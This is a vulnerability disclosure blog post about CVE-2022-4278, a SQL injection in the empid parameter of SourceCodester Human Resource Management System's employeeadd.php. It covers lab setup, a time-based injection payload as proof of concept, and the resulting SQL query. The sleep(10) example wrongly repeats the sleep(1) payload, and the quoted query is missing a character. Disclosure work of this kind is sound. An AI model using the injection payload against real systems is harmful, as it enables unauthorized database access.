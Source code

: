 ```yaml
---
template: overrides/blog.html
title: CVE-2022-4278
description: >
  A vulnerability was found in SourceCodester Human Resource Management System 1.0. It has been rated as critical. This issue affects some unknown processing of the file /hrm/employeeadd.php. The manipulation of the argument empid leads to sql injection. The attack may be initiated remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-214775.
hide:
  - feedback
---
```


# SourceCodester Human Resource Management System employeeadd.php sql injection

<aside class="mdx-author" markdown>
![@squidfunk][@squidfunk avatar]

<span>**NGO VAN TU** · @tusnj</span>
<span>
:octicons-calendar-24: December 03, 2022 ·
:octicons-clock-24: 5 min read ·
</span>

</aside>

[built-in search plugin]: ../../setup/setting-up-site-search.md#built-in-search-plugin
[@squidfunk avatar]: ../../assets/author/tuicon.png
[insiders-4.14.0]: ../../insiders/changelog.md#4.14.0

---

## Introduction

Human Resource Management System is a web application that was developed in PHP and MySQL Database. It aims to provide an online automated platform for certain company employees' to manage or submit their leave applications. It has a pleasant user interface with some gradient color and uses Bootstrap and Responsee Framework for the page designs.

[CVE-2022-4278](https://www.cve.org/CVERecord?id=CVE-2022-4278) is a vulnerability classified as critical has been found in SourceCodester Human Resource Management System 1.0. Affected is an unknown function of the file /hrm/employeeadd.php. The manipulation of the argument empid leads to sql injection. This vulnerability is traded as CVE-2022-4278. It is possible to launch the attack remotely. Furthermore, there is an exploit available.

## Understanding

A vulnerability was found in SourceCodester Human Resource Management System 1.0. It has been rated as critical. This issue affects an unknown functionality of the file /hrm/employeeadd.php. The manipulation of the argument empid with an unknown input leads to a sql injection vulnerability. Using CWE to declare the problem leads to CWE-89. The software constructs all or part of an SQL command using externally-influenced input from an upstream component, but it does not neutralize or incorrectly neutralizes special elements that could modify the intended SQL command when it is sent to a downstream component. Impacted is confidentiality, integrity, and availability.

The weakness was published 12/03/2022 by Ngo Van Tu. It is possible to read the advisory at github.com. The identification of this vulnerability is CVE-2022-4278. Technical details as well as a public exploit are known. The attack technique deployed by this issue is T1505 according to MITRE ATT&CK.

## Affected

The product(s): https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Affected product(s)/code base: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hrm.zip

Affected component(s): /hrm/employeeadd.php

## Technical Details

### System Installation/Setup

1. Open your XAMPP Control Panel and start Apache and MySQL.
2. Extract the downloaded source code zip file.
3. Copy the extracted source code folder and paste it into the XAMPP's "htdocs" directory.
4. Browse the PHPMyAdmin in a browser. i.e. http://localhost/phpmyadmin
5. Create a new database named hrm_db.
6. Import the provided SQL file. The file is known as hrm_db.sql located inside the db folder.
7. Browse the Human Resource Management System in a browser. i.e. http://localhost/hrm/.

### Proof of Concept

Login as admin and go to http://localhost/hrm/employeeadd.php

Execute Payload SQLi with injection:

`/hrm/employeeadd.php?empid=1%27%20or%20sleep(1)%20--%20-`

The database will sleep 1 second before return data to the web application

![Payload SQLi with sleep(1)](CVE-2022-4278/sqli-sleep-1.png)

In the other hand, execute payload sleep(10) will make database sleep 10 seconds before return data

`/hrm/employeeadd.php?empid=1%27%20or%20sleep(1)%20--%20-`

![Payload SQLi with sleep(10)](CVE-2022-4278/sqli-sleep-10.png)

### Analysis with SQL log

We back to SQL log and see what exactly executed in the server.

The query `SELECT e.*,ss.StateId, cc.CountryId FROM employee e join city c on e.CityId=c.CityId join state ss on c.StateId ss.StateId join country cc on cc. CountryId=ss. CountryId where EmpId=<empid here>`

![My sql Logs](CVE-2022-4278/mysql-log.png)

## CVE Reference

[https://www.cve.org/CVERecord?id=CVE-2022-4278](https://www.cve.org/CVERecord?id=CVE-2022-4278)